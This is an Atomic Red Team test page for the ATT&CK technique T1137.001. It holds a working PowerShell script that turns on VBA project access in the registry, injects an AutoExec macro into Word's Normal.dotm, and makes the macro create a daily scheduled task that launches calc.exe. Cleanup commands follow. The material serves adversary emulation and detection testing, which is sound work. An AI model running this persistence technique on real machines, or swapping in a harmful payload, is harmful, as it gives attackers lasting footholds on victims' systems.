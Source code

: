 # T1137.001 - Office Application Startup: Office Template Macros.
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1137/001)
<blockquote>Adversaries may abuse Microsoft Office templates to obtain persistence on a compromised system. Microsoft Office contains templates that are part of common Office applications and are used to customize styles. The base templates within the application are used each time an application starts. (Citation: Microsoft Change Normal Template)

Office Visual Basic for Applications (VBA) macros (Citation: MSDN VBA in Office) can be inserted into the base template and used to execute code when the respective Office application starts in order to obtain persistence. Examples for both Word and Excel have been discovered and published. By default, Word has a Normal.dotm template created that can be modified to include a malicious macro. Excel does not have a template file created by default, but one can be added that will automatically be loaded.(Citation: enigma0x3 normal.dotm)(Citation: Hexacorn Office Template Macros) Shared templates may also be stored and pulled from remote locations.(Citation: GlobalDotName Jun 2019) 

Word Normal.dotm location:<br>
<code>C:\Users\&lt;username&gt;\AppData\Roaming\Microsoft\Templates\Normal.dotm</code>

Excel Personal.xlsb location:<br>
<code>C:\Users\&lt;username&gt;\AppData\Roaming\Microsoft\Excel\XLSTART\PERSONAL.XLSB</code>

Adversaries may also change the location of the base template to point to their own by hijacking the application's search order, e.g. Word 2016 will first look for Normal.dotm under <code>C:\Program Files (x86)\Microsoft Office\root\Office16\</code>, or by modifying the GlobalDotName registry key. By modifying the GlobalDotName registry key an adversary can specify an arbitrary location, file name, and file extension to use for the template that will be loaded on application startup. To abuse GlobalDotName, adversaries may first need to register the template as a trusted document or place it in a trusted location.(Citation: GlobalDotName Jun 2019) 

An adversary may need to enable macros to execute unrestricted depending on the system or enterprise security policy on use of macros.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Injecting a Macro into the Word Normal.dotm Template for Persistence via PowerShell](#atomic-test-1---injecting-a-macro-into-the-word-normaldotm-template-for-persistence-via-powershell)


<br/>

## Atomic Test #1 - Injecting a Macro into the Word Normal.dotm Template for Persistence via PowerShell
Injects a Macro in the Word default template "Normal.dotm" and makes it execute each time that Word is opened. In this test, the Macro creates a sheduled task to open Calc.exe every evening.

**Supported Platforms:** Windows


**auto_generated_guid:** 940db09e-80b6-4dd0-8d4d-7764f89b47a8






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
# Registry setting to "Trust access to the VBA project object model" in Word
$registryKey = "HKCU:Software\Microsoft\Office\16.0\Word\Security"
$registryValue = "AccessVBOM"
$registryData = "1"
# The path where a flag text file will be created if Registry setting did not already exist or if it was set to 0
$flagPath1 = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\T1137-001_Flag1.txt"
$flagPath2 = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\T1137-001_Flag2.txt"
# Get the value of the Key/Value pair
$value = (Get-ItemProperty -Path $registryKey -Name $registryValue -ErrorAction SilentlyContinue).$registryValue
# Logical operation to: if the value of the key/value is 1, do nothing - 
# if the value is 0, change it to 1 and create flag1 - 
# if it doesn't exist, create the value and flag2
if ($value -eq "1") 
{
  Write-Host "The registry value '$registryValue' already exists with the required setting."
}   
  elseif ($value -eq "0") 
{
  Write-Host "The registry value was set to 0, temporarily changing to 1."
  New-ItemProperty -Path $registryKey -Name $registryValue -Value $registryData -PropertyType DWORD -Force | Out-Null
  echo "flag1" > $flagPath1
} 
  else 
{
  Write-Host "The registry value '$registryValue' does not exist, temporarily creating it."
  New-ItemProperty -Path $registryKey -Name $registryValue -Value $registryData -PropertyType DWORD -Force | Out-Null
  echo "flag2" > $flagPath2
}
Add-Type -AssemblyName Microsoft.Office.Interop.Word
# Define the path of copied normal template for restoral
$copyPath = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\Normal1.dotm"
# Define the path to the normal template
$docPath = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\Normal.dotm"
# Create copy of orginal template for restoral
Copy-Item -Path $docPath -Destination $copyPath -Force
# VBA code to be insterted as a Macro
# Will create a scheduled task to open the Calculator at 8:04pm daily
$vbaCode = @"
  Sub AutoExec()
  Dim applicationPath As String
  Dim taskName As String
  Dim runTime As String
  Dim schTasksCmd As String
  applicationPath = "C:\Windows\System32\calc.exe"
  taskName = "OpenCalcTask"
  runTime = "20:04"
  schTasksCmd = "schtasks /create /tn """ & taskName & """ /tr """ & applicationPath & """ /sc daily /st " & runTime & " /f"
  Shell "cmd.exe /c " & schTasksCmd, vbNormalFocus
  End Sub
"@
# Create a new instance of Word.Application
$word = New-Object -ComObject Word.Application
# Keep the Word application hidden
$word.Visible = $false
# Open the document
$document = $word.Documents.Open($docPath)
# Access the VBA project of the document
$vbaProject = $document.VBProject
# Add a new module to the VBA project
$newModule = $vbaProject.VBComponents.Add(1) # 1 = vbext_ct_StdModule
# Add the VBA code to the new module
$newModule.CodeModule.AddFromString($vbaCode)
# Run the Macro
$word.run("AutoExec")
# Save and close the document
$document.SaveAs($docPath)
$document.Close()
# Quit Word
$word.Quit()
# Release COM objects
[System.Runtime.InteropServices.Marshal]::ReleaseComObject($document) | Out-Null
[System.Runtime.InteropServices.Marshal]::ReleaseComObject($word) | Out-Null
[System.Runtime.InteropServices.Marshal]::ReleaseComObject($vbaProject) | Out-Null
[System.Runtime.InteropServices.Marshal]::ReleaseComObject($newModule) | Out-Null
```

#### Cleanup Commands:
```powershell
# Registry setting to "Trust access to the VBA project object model" in Word
$registryKey = "HKCU:Software\Microsoft\Office\16.0\Word\Security"
$registryValue = "AccessVBOM"
$registryData1 = "1"
$registryData0 = "0"
# Defines the path each flag file created depending on the original registry state
$flagPath1 = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\T1137-001_Flag1.txt"
$flagPath2 = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\T1137-001_Flag2.txt"
# Define the path of copied normal template for restoral
$copyPath = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\Normal1.dotm"
# Define the path to the normal template
$docPath = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\Normal.dotm"
# Delete the scheduled task created by the Macro
schtasks /Delete /TN "OpenCalcTask" /F | Out-Null
#Restore the orginal template if the backup copy exists
if (Test-Path $copyPath)
{
  #Delete the injected template
  Remove-Item -Force $docPath -ErrorAction SilentlyContinue
  # Restore the original template
  Rename-Item -Force -Path $copyPath -NewName $docPath -ErrorAction SilentlyContinue
  Write-Host "The original template has been restored"
}
  else
{
  Write-Host "The original template is present"
}
#Restore the original state of the registry key
if (Test-Path $flagPath1) 
{
  # The value was originally 0, set back to 0
  New-ItemProperty -Path $registryKey -Name $registryValue -Value $registryData0 -PropertyType DWORD -Force | Out-Null
  Remove-Item -Force $flagPath1 -ErrorAction SilentlyContinue
  Write-Host "The original registry state has been restored"
} 
  elseif (Test-Path $flagPath2)
{
  #The value did not previously exist, delete the value
  Remove-ItemProperty -Path $registryKey -Name $registryValue | Out-Null
  Remove-Item -Force $flagPath2 -ErrorAction SilentlyContinue | Out-Null
  Write-Host "The original registry state has been restored"
}
  else 
{
  # The value was already 1, do nothing
  Write-Host "The value $registryValue already existed in $registryKey."
}
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Word.Application" | Out-Null
  Stop-Process -Name "winword"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
